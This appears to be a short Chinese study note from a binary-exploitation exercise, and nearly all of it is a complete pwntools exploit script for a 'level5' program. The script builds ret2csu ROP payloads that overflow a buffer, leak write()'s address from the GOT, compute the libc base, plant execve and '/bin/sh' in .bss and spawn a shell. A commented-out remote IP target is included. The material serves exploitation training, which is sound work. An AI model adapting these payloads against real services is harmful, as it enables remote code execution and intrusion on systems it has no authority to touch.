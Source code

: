 > 以上是蒸米文章阅读后的理解笔记

最终exp如下：

```python
from pwn import *

p = process('./level5')
#p = remote('192.168.17.155',10001)

elf = ELF('level5')
libc = elf.libc
main = elf.symbols['main']
bss_addr = elf.bss()

gadget1 = 0x40061a
gadget2 = 0x400600

got_write = elf.got['write']
print "[*]write() got: " + hex(got_write)
got_read = elf.got['read']
print "[*]read() got: " + hex(got_read)

def csu(rbx, rbp, r12, r13, r14, r15, ret):
	# pop rbx,rbp,r12,r13,r14,r15
	# rbx should be 0,
	# rbp should be 1,enable not to jump
	# r12 should be the function we want to call
	# rdi=edi=r15d
	# rsi=r14
	# rdx=r13
	payload = "A" * 136
	payload += p64(gadget1) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
	payload += p64(gadget2)
	payload += "B" * 56
	payload += p64(ret)
	return payload

#write(rdi=1, rsi=write.got, rdx=4)
payload1 = csu(0, 1, got_write, 8, got_write, 1, main)

p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "[*]leak write() addr: " + hex(write_addr)

libc.address = write_addr - libc.symbols['write']
execve_addr = libc.symbols["execve"]
print "[*]execve() addr: " + hex(execve_addr)

p.recvuntil("Hello, World\n")

#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 = csu(0, 1, got_read, 16, bss_addr, 0, main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

p.send(p64(execve_addr))
p.send("/bin/sh\0")
```